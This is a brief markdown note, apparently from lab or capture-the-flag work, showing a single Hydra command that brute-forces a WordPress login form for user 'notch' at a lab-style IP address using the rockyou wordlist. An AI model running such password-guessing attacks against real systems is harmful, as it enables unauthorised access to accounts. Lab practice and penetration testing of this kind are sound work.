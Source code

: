 # hydra

## Hydra Usage

### Post attack

`hydra -l notch -P /usr/share/wordlists/rockyou.txt 10.10.10.37 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

